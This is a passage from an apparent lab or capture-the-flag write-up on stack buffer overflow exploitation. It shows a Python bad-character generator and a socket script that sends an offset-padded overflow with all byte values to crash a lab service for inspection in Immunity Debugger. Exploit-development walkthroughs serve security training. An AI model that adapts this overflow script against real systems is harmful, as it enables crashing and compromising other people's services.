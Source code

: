 ![](images/Pasted%20image%2020250529123802.png)


As seen, it got saved as `bytearray.bin`, we now need to create a bad char string on another python script:

```python
for x in range(1, 256):
    print("\\x{:02x}".format(x), end='')
print()
```

We can use:

```
python3 badchar.py > string.txt
```

Now, we need to copy that and remove the block that reads `pattern.txt`, it will go like this:

```python
import socket

ip = "10.10.199.216"
port = 1337

prefix  = "OVERFLOW1 "
offset  = 1978
overflow= "A" * offset
retn    = "BBBB"
padding = ""
payload = "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))
print("Sending test pattern...")
s.send(bytes(buffer + "\r\n", "latin-1"))
s.close()
```


Now, restart the file again and use the script, the server will crash again and we need to look in the right side of immunity for the `ESP address`:
